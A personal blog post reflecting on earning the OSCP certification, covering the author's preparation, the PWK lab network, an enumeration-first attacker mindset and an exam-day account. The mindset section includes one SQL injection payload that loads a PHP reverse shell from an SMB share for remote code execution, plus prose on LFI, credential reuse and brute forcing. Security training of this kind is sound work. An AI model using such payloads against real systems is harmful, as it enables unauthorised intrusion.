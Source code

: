 ```yaml
---
cover: https://i.ibb.co/m4VrZK6/OSCP.png
title: OSCP and Penetration Testing mindset
date: 12/14/2022 09:45:47 +07:00
categories: certification-review
tags: [OSCP, PEN-200, Offsec]
toc: true
toc_number: false
---
```


# OSCP and Penetration Testing mindset

![](https://api.accredible.com/v1/frontend/credential_website_embed_image/certificate/56608366)

## Overview
While I passed my OSCP back in August, 2022. In this blog post I specifically wanted to reflect on the mindset and strategy which offsec helped to develop for conducting a successful penetration test against an organization. This article will not be specifically about the course, lab or the exams as there are alot of other articles on the internet regarding those but rather a unique psychological aspect behind an adversial thinking and how OSCP helped in developing that mindset. 

## Background
Before getting the `OSCP` I was already into information security from approximately 2.5 years. I was active on Hackthebox, tryhackme, vulnhub doing `boot2root`, actively doing ctf challanges with my friends every other week, doing bug bounty, researching various topics, In general I enjoyed this thing. I was also a member of Synack Red Team from january, 2021. During our monthly meetup of `Pentester Nepal` we had our senior Nirmal Thapa who also goes by the handle `mpz` who was `OSCP` certified from whom I got to know that `OSCP` was the most sought after industry leading penetration testing certification at the time. I was basically hooked when I returned home I started googling everything I could, watched every youtube video, researched everything regarding `OSCP` from blog posts to reddit threads. I knew I had to get the `OSCP` certification. But the problem was with the cost which was `$1299` for Course Materials + 60 days of Lab Access + An exam attempt. I started actively doing bug bounty on Synack and a week later my `Path Traversal` bug got accepted which covered not only my `OSCP` cost but also for purchasing hackthebox VIP access and pg play subscription. On March of 2022 I registered for `PWK` course with 60 days of lab access.        
![](https://i.ibb.co/ZdqNXWJ/Screenshot-2024-06-15-111207.png)

## The Labs
I did 60-70 machines on `Hackthebox`,machines from `TJ Null's` oscp prep list, 25+ machines on `proving grounds` and so many machines from `vulnhub` and `tryhackme` that I can't even remember of but compared to those the OSCP labs were very unique. It had total `75` machines which included two `Active Directory` sets and rest standalone windows, linux machines representing a typical internal network of an organization.These hosts consisted of old systems vulnerable to kernel exploits to latest operating systems with fully updated applications. After compromising most of the hosts in one network we had to identify one or two of the host which were connected to another network and use this as a pivoting machine to scan and gain access to machines in another network. It also taught to leverage credentials or information gathered from one machine to compromise another. Even the `NetBIOS` names for each host in the network also made sense like, "okay this is John's workstation, this might be a switch or default gateway, this and previous host might be using same configuration" and so on. The labs were not difficult at all instead it was very fun. I planned to compromise two machine a day this way in about 40 days I would be able to comrpomise all the hosts.

## The Mindset
Talking about how `Offsec` helps in developing an adversial mindset, I felt the labs to be pretty real life compared to `hackthebox`, `tryhackme` and other `boot2root` machines. My thought process and methodology was slightly different while doing `PWK Labs` compared to other boot2root machines from various platforms. Remember `Always go for breadth before depth`, this means not to focus on particular vulnerability or access point but to enumerate everything which includes every `tcp` and `udp` port, every `services` and their specific misconfigurations, gather every information including the `NetBIOS` name of the host, check every entry points, note every detail if the host is running any kind of web application, is it a cms? what is the version? Is it a custom built site? Maybe there is an administrator portal? Maybe `virtual hosts` exists? Try fuzzing not only directories but also common files such as `robots.txt`, `.git`, `.SVN`, `config.php`, `.htaccess`, etc. Found some potential `usernames`? Some `comments` posted by a user or an administrator? Got access to an `email`? Now its time to piece the information together. Figure out why were those things configured in the first place and the purpose behind the information. Basically we need to ask question to ourselves why was it configured? what is the purpose of this? Am I missing in enumerating any information? After enumerating as much as possible we need to use the information to our advantage by piecing the puzzle together and trying different things, for example an `FTP Service` is configured with webroot directory and there is also a web application? Maybe if I am able to upload `reverse shell` to the `webroot` by gaining access to this ftp service I would be able to access and trigger the shell from the `website`? Oh! I donot have credentials to this `FTP Service` but there is an LFI Vulnerability in the `web application` maybe I can access the configuration file for this `FTP Service` using `LFI`? A user is running a powershell script where we found plaintext credentials? What are the chances that this credential is also used for other services? `RDP`, `winrm`, `smb`, `ssh`? Maybe the user is also an administrator on other host in same/different nework and same credential re-used? Found sql injection in web application with mysql database but dumping the database did not result in juicy information? What are the chances mysql `load_file()` method can be utilized to read sensative system files? If the host is windows and we have write access to an smb share maybe we can upload a php reverse shell on that share and trigger it using sql injection and `load_file()` method by doing `'+UNION+SELECT+NULL,NULL,NULL,NULL,load_file('\\\\10.10.10.9\\share\\reverse-shell.php'),NULL--` to get an RCE? We need to be curious and try dfferent things to fit the puzzle together. Remember `broad and thorough enumeration` and use the information to your advantage. Nothing worked? Maybe we can just bruteforce our way in. Also do not worry about tools or commands as those can be found literally everywhere from `hacktricks`, `github`, `blog posts`, `Forums`, `throughout the internet`. It is just a google search away. The goal is to understand what you are doing, what the tool or specific command is doing and what is the objective.

## The Exam
I booked my exam for `August 6th, Saturday 6:00 AM` nepali time. Within `10 AM` I had successfully compromised the `AD Chain` with 40 pts on my pocket. I took break until `12 PM` and started with the `Linux` host where I was not able to find an initial foothold noo matter how much I enumerated or what I tried including `bruteforcing` my way in. It was already `2-3 hours`. I moved to another machine which was a standalone windows host, In about an hour I successfully got initial access into the machine and got my `local.txt` and it was already `5 PM`. In about 11 hours I had accumulated 50 points. I took break for an hour and went for privilege escalation which seemed impossible but remember as I said to piece the information together which is exactly what I did and was successful in gaining `nt authority\system` access. Now I had 60 points under my belt. I started with second machine which was relatively straightforward both initial compromise and privilege escalation with which I had the passing score. I felt so much relief. It was already `12 AM` so I decided to sleep, I set my alarm for `4 AM` next morning to give the previous `Linux Host` one final try, I thought I found the exploit but was not sure if it would work since I had one `metasploit usage` still left just firing the exploit gained me initial access into the machine and I was like what just happened here? Neverthess I continued with privilege escalation with only an hour remaning before my exam ended and  successfully got root access into the machine. I was feeling like I was on top of the world at that moment. I quickly re assured I had all the necessary screenshots taken and told the proctor to end my exam. After creating a thorough report and submitting it on `August 13, 2022 evening Nepali time` I received email from offensive security that I had passed. This was a very proud moment for me as I was finally an OSCP holder although continuous learning and advancing my tradecraft in this field never stops.


## Tips
- Be curious
- Try different things if one does not work
- Focus on breadth before depth
- Enumerate as much as you can and fit the puzzle pieces together by utilizing those information
- Be patient do not rush or you will miss information which is right in front of you
- Take Breaks

